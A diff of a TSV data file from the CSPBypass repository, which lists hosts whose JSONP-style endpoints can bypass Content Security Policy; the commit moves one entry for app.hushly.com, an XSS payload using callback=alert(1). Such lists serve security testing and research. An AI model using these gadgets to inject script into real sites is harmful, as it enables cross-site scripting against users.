

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; removed rows and columns are numbered as before the commit, all else as after; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Update data.tsv

```diff
--- a/data.tsv
+++ b/data.tsv
-row 2: app.hushly.com <script src="https://app.hushly.com/runtime/visitor?callback=alert(1)//"></script>
+row 45: app.hushly.com | <script src="https://app.hushly.com/runtime/visitor?callback=alert(1)//"></script>
```
